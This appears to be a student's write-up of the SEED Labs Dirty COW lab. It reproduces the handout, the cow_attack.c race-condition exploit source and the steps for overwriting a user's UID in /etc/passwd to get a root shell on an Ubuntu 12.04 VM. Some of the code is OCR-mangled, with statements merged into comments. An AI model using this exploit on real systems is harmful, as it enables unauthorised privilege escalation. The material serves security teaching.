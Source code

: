 
# SEEDlabs: Dirty COW Attack Lab

#### Ozgur Ural
#### Student ID: 2564455

## 1 Lab Overview

The Dirty COW vulnerability is an interesting case of the race condition vulnerability. It existed in the  Linux  kernel  since  September  2007,  and  was  discovered  and  exploited  in  October  2016. The vulnerability affects all Linux-based operating systems, including Android, and its consequence is very severe: attackers can gain the root privilege by exploiting the vulnerability. The  vulnerability  resides  in  the  code  of  copy-on-write  inside  Linux  kernel.  By  exploiting  this vulnerability, attackers can modify any protected file, even though these files are only readable to them.

The objective of this lab is for you to gain the hands-on experience on the Dirty COW attack, understand the race condition vulnerability exploited by the attack, and gain a deeper understanding  of  the  general race condition security  problems.  In  this  lab, you will  exploit the Dirty COW race condition vulnerability to gain the root privilege. Note:  This  lab  is  based  on  the  Ubuntu12.04  VM.  If  you  are  currently  using  a  newer  Linux version,  such  as  Ubuntu16.04,  the  vulnerability  has  already  been  patched.  Therefore, to complete this lab please use the Ubuntu 12.04 VM.

## 2 Task 1: Modify a Dummy Read-Only File
The objective of this task is to write to a read-only file using the Dirty COW vulnerability.

## 2.1 Create a Dummy File
We first need to select a target file. Although this file can be any read-only file in the system, we will use a dummy file in this task, so we do not corrupt an important system file in case we make a mistake. Please create a file called zzz in the root directory using the root account, change its permission  to  read-only for normal users, and put some random content into the file using an editor such as gedit.

```sh
$ sudo touch /zzz
$ sudo chmod 644 /zzz
$ sudo gedit /zzz
$ cat /zzz 111111222222333333
$ ls -l /zzz
$ -rw-r--r-- 1 root root 19 Oct 18 22:03 /zzz
$ echo 99999 > /zzz
$ bash: /zzz: (*@Permission denied@*)
```

From the above experiment, we can see that if we try to write to this file as a normal user, we will fail, because the file is only readable to normal users. However, because of the Dirty COW vulnerability in the system, we can find a way to write to this file. Our objective is to replace the pattern "222222" with "******".


I followed the steps above as you can see below. 
```sh
[11/27/21]seed@VM:~$ setxkbmap tr
[11/27/21]seed@VM:~$ sudo touch /zzz
[11/27/21]seed@VM:~$ sudo chmod 644 /zzz
[11/27/21]seed@VM:~$ sudo gedit /zzz
[11/27/21]seed@VM:~$ ls -l /zzz
-rw-r--r-- 1 root root 19 Nov 27 18:49 /zzz
[11/27/21]seed@VM:~$ echo 99999 > /zzz
bash: /zzz: Permission denied
```


## 2.2 Set Up the Memory Mapping Thread

You  check  the  program  cow  attack.c  for  this  lab.  The  program  has  three  threads:  the  main 
thread, the write thread, and the madvise thread. The main thread maps /zzz to memory, finds 
where  the  pattern  "222222"  is,  and  then  creates  two  threads  to  exploit  the  Dirty  COW  race 
condition vulnerability in the OS kernel.

```sh
/* cow_attack.c (the main thread) */
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>
#define OFFSET 5
#define TARGET_CONTENT " I have successfully Attacked!! "
void *map;
int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  // Open the file in read only mode. int 
  f=open("/zzz", O_RDONLY);
  // Open with PROT_READ.
  fstat(f, &st);
  map=mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, NULL); (*@Line 1@*)
  pthread_create(&pth2, NULL, writeThread, TARGET_CONTENT); (*@Line 2@*)
  // Wait for the threads to finish. 
  pthread_join(pth1, NULL); 
  pthread_join(pth2, NULL);
  return 0;
}
```
In the above code, we start two threads: madviseThread (Line À) and writeThread (Line `)

## 2.3 Set Up the write Thread

The job of the write thread listed in the following is to replace the string "222222" in the memory 
with  "******".  Since  the  mapped  memory  is  of  COW  type,  this  thread  alone  will  only  be  able  to 
modify the contents in a copy of the mapped memory, which will not cause any change to the 
underlying /zzz file.

```sh
/* cow_attack.c (the write thread) */
void * writeThread(void *arg)
{
  char *content= (char*) arg;
  char current_content[10];
  int f=open("/proc/self/mem", O_RDWR); while(1) 
  {
    //Set the file pointer to the OFFSET from the beginning lseek(f, (uintptr_t) 
    map + OFFSET, SEEK_SET); write(f, content, strlen(content));
  }
}
```

## 2.4 The madvise Thread

The madvise thread does only one thing: discarding the private copy of the mapped memory, so 
the page table can point back to the original mapped memory.

```sh
/* cow_attack.c (the madvise thread) */
void *madviseThread(void *arg)
{
  while(1){
    madvise(map, 100, MADV_DONTNEED);
  }
}
```

## 2.5 Launch the Attack

If the write() and the madvise() system calls are invoked alternatively, i.e., one is invoked only 
after the other is finished, the write operation will always be performed on the private copy, and 
we  will  never  be  able  to  modify  the  target  file.  The  only  way  for  the  attack  to  succeed  is  to 
perform the madvise() system call while the write() system call is still running. We cannot always 
achieve that, so we need to try many times. As long as the probability is not extremely low, we 
have  a  chance.  That  is  why  in  the  threads,  we  run  the  two  system  calls  in  an  infinite  loop. 
Compile the cow attack.c and run it for a few seconds. If your attack is successful, you should 
be able to see a modified /zzz file. Report your results in the lab report and explain how you are 
able to achieve that.

```sh
$ gcc cow_attack.c -lpthread
$ a.out
... press Ctrl-C after a few seconds ...
```

## 3 Task 2: Modify the Password File to Gain the Root Privilege

Now, let’s launch the attack on a real system file, so we can gain the root privilege. We choose 
the  /etc/passwd  file  as  our  target  file.  This  file  is  world-readable,  but  non-root  users  cannot 
modify it. The file contains the user account information, one record for each user. Assume that 
our user name is seed . The following lines show the records for root and seed:

```sh
root:x:0:0:root:/root:/bin/bash 
seed:x:1000:1000:Seed,123,,:/home/seed:/bin/bash
```

Each  of  the  above  record  contains  seven  colon-separated  fields.  Our  interest  is  on  the  third 
field,  which  specifies  the  user  ID  (UID)  value  assigned  to  a  user.  UID  is  the  primary  basis  for 
access control in Linux, so this value is critical to security. The root user’s UID field contains a 
special value 0; that is what makes it the superuser, not its name. Any user with UID 0 is treated 
by the system as root, regardless of what user name he or she has. The seed user’s ID is only 
1000, so it does not have the root privilege. However, if we can change the value to 0, we can 
turn it into root. We will exploit the Dirty COW vulnerability to achieve this goal.
In our experiment, we will not use the seed account, because this account is used for most of 
the  experiments  in  this  book;  if  we  forget  to  change  the  UID  back  after  the  experiment,  other 
experiments will be affected. Instead, we create a new account called charlie, and we will turn 
this normal user into root using the Dirty COW attack. Adding a new account can be achieved 
using  the  adduser  command.  After  the  account  is  created,  a  new  record  will  be  added  to 
/etc/passwd. See the following:

```sh
$ sudo adduser charlie
...
$ cat /etc/passwd | grep charlie 
charlie:x:1001:1001:,,,:/home/charlie:/bin/bash
```

We suggest that you save a copy of the /etc/passwd file, just in case you make a mistake and 
corrupt  this  file.  An  alternative  is  to  take  a  snapshot  of  your  VM  before  working  on  this  lab,  so 
you can always roll back if the VM got corrupted.
Task:  You  need  to  modify  the  charlie’s  entry  in  /etc/passwd,  so  the  third  field  is  changed  from 
1001  to  0000,  essentially  turning  charlie  into  a  root  account.  The  file  is  not  writable  to  charlie, 
but  we  can  use  the  Dirty  COW  attack  to  write  to  this  file.  You  can  modify  the  cow  attack.c 
program from Task 1 to achieve this goal.
After your attack is successful, if you switch user to charlie, you should be able to see the # sign 
at the shell prompt, which is an indicator of the root shell. If you run the id command, you should 
be able to see that you have gained the root privilege.

```sh
seed@ubuntu$ su charlie
Passwd:
root@ubuntu# id
(uid=0(root)) gid=1001(charlie) groups=0(root),1001(charlie)
```

